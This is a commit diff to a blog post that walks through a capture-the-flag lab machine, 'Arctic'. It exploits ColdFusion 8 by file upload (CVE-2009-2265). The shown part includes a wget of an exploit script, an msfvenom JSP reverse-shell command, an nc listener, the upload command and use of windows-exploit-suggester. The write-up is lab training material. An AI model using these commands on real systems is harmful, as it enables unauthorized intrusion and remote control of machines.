

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-07-29-arctic.md, in a window 1280 px wide and 1400 px high, scrolled down 2021 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-07-29-arctic.md
+++ b/_posts/2020-07-29-arctic.md
@@ -56,7 +56,7 @@ Now that I have the version, let's search for known exploits :
 
 ![Arctic logo](/assets/imgs/arctic/searchsploit_coldfusion.PNG)
 
-Metasploit module so search web and found this repository :
+There is a Metasploit module for an Arbitrary FIle Upload so I searched on Google for it and found this python script, that I download :
 
 ```
 wget https://repo.theoremforge.com/pentesting/tools/-/raw/01a0616a6e09c9dbf42d731261309109443cc3e6/Uncategorized/exploit/windows/CVE-2009-2265_coldfusion.8.0.1/upload.py
@@ -66,25 +66,25 @@ wget https://repo.theoremforge.com/pentesting/tools/-/raw/01a0616a6e09c9dbf42d73
 
 ------
 
-Generate payload :
+Reading the code, I need a jsp payload, generate one :
 
 ```
 msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=1234 -f raw > shell.jsp
 ```
 
-Start nc listener :
+Start a nc listener :
 
 ```
 nc -lvp 1234
 ```
 
-Exploit :
+Then exploit :
 
 ```
 python upload.py 10.10.10.11 8500 ./shell.jsp
 ```
 
-Go to nc listener :
+Go to the listener :
 
 ```
 nc -lvp 1234
@@ -99,7 +99,7 @@ whoami
 arctic\tolis
 ```
 
-On the machine I run the following command and copy/paste the results into a file over my machine :
+Nice, it works, I'm now on the machine. Let's get the systeminfo to use with windows-exploit-suggester. I run the following command and copy/paste the results into a file over my machine :
 
 ```
 systeminfo
@@ -110,14 +110,14 @@ Update the tool :
 ```
 python windows-exploit-suggester.py --update
 [*] initiating winsploit version 3.3...
-[+] writing to file 2020-07-28-mssb.xls
+[+] writing to file 2020-07-29-mssb.xls
 [*] done
 ```
 
 Then run it with the newly created database and the systeminfo file :
 
 ```
-python windows-exploit-suggester.py --database 2020-07-28-mssb.xls --systeminfo systeminfo
+python windows-exploit-suggester.py --database 2020-07-29-mssb.xls --systeminfo systeminfo
 [*] initiating winsploit version 3.3...
 [*] database file detected as xls or xlsx based on extension
 [*] attempting to read from the systeminfo input file
````
